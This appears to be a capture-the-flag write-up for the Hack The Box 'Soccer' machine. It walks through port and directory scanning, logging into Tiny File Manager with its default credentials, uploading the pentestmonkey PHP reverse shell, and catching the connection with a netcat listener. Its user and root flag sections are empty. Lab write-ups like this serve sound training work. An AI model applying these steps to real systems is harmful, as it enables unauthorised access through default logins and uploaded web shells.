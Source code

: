 # Reconnaissance

## Port Scan (nmap)

**Command:**\
*sudo nmap -sC -sV -O -v -T4 -p- {IP address}*

**Command Description:**\
Use default scripts, service version, OS detection, verbose, scan intensity (aggressive), all ports, target

**Results:**\
TCP Ports Open:\
22 - SSH\
80 - HTTP\
9091 - mltec-xmlmail

**Actions:**\
Edit */etc/hosts* and add the follwing line to display the website correctly on port 80 (HTTP): *{IP address} 	soccer.htb*

## Directory Scan (gobuster)

**Command:**\
*gobuster dir --url http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt*

**Command Description:**\
directory scan, target url, directory wordlist

**Results:**\
Directory found: */tiny*

**Actions:**\
Navigate to: *http://soccer.htb/tiny*

## OSINT

**Actions:**\
Search on google for: *tinyfilemanager default credentials*

**Results**\
URL: https://github.com/prasathmani/tinyfilemanager

Default Credentials:\
Default username/password:\
*admin/admin@123*\
*user/12345*

TinyFileManager uses PHP.

# Weaponization

## PHP Reverse Shell

**Actions:**\
Create a new file with this php reverse shell script: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php (or any other PHP reverse shell script).\
Edit the file and change the following variables *$ip* (the machine a victim should connect to) and *$port* (the port a victim should connect to).

## Reverse Shell Listener (netcat)

**Command:** *sudo nc -lvnp 9001*

**Command Description:**\
listener (listen for incoming connections), verbose, numeric only ip addresses (no DNS), port

**Results:**\
Listening for incoming connections on port 9001.

# Delivery

## Account Access

**Actions:**\
Use admin credentials acquired from the *Reconnaissance* phase (*admin/admin@123*) to log into the tinyfilemanger portal *soccer.htb/tiny*

## File Upload

**Actions:**\
Navigate to *tiny* directory and then *uploads* directory and then press upload on the top right corner and choose the previously created modified php reverse shell from the *Weaponization* phase.

# Exploitation

## Triggering The PHP Reverse Shell

**Actions:**\
Navigate to: http://soccer.htb/tiny/uploads/php-reverse-shell.php

**Results:**\
The PHP reverse shell will trigger and open a shell from the netcat listener that was setup in the *Weaponization* phase.

# Attack On Objectives

USER FLAG:
ROOT FLAG:











